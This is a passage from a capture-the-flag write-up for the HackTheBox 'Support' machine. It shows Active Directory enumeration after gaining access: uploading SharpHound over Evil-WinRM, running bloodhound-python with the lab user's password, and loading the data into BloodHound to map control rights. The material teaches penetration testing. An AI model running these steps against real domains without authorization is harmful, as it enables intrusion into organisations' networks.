 # root.txt

## Exploring

With some basic enumeration we can see nothing interesting. So I've decided to use `BloodHound` here and uploaded a `SharpHound.exe` collector to get domain info.

```powershell
*Evil-WinRM* PS C:\Users\support\Downloads> upload SharpHound.exe
*Evil-WinRM* PS C:\Users\support\Downloads> ./SharpHound.exe --collectionmethods All --zipfilename bloodhound
*Evil-WinRM* PS C:\Users\support\Downloads> download C:\Users\support\Downloads\20220804095517_bloodhound.zip /home/kali/Downloads/bloodhound.zip
```

Unfortunately, this doesn't work for me. BloodHound always gives "BAD JSON FILE" error and I don't know how to fix it. So, I've used `bloodhound-python` script to collect data. It grabs less data than SharpHound, but it is enough for this machine.

```zsh
$ bloodhound-python -v -u 'support' -p 'Ironside47pleasure40Watchful' -ns 10.10.11.174 -d support.htb -c All
$ ll
total 180K
 12K -rw-r--r--  1 kali kali  11K Aug  5 10:22  20220805102215_computers.json
4.0K drwxr-xr-x  3 kali kali 4.0K Aug  5 10:22  .
4.0K -rw-r--r--  1 kali kali 3.4K Aug  5 10:22  20220805102215_domains.json
 92K -rw-r--r--  1 kali kali  86K Aug  5 10:22  20220805102215_groups.json
 60K -rw-r--r--  1 kali kali  54K Aug  5 10:22  20220805102215_users.json
4.0K drwxr-xr-x 39 kali kali 4.0K Aug  5 10:11  ..
```

We've got the data for BloodHound, now we set up BloodHound and login:

```zsh
$ sudo neo4j console
$ bloodhound
```

We need to import our data manually, because bloodhound-python makes results in raw json files without an archieve. To do that we need to press "Upload data" button and select our json files.

![Upload button](/assets/hackthebox/support/upload_button.png)

Next, in the search bar we find our "support@support.htb" user and mark it as owned. We can see what rights it has in `Node info`. We can see it's outbound control rights. Select "Transitive Object Control".
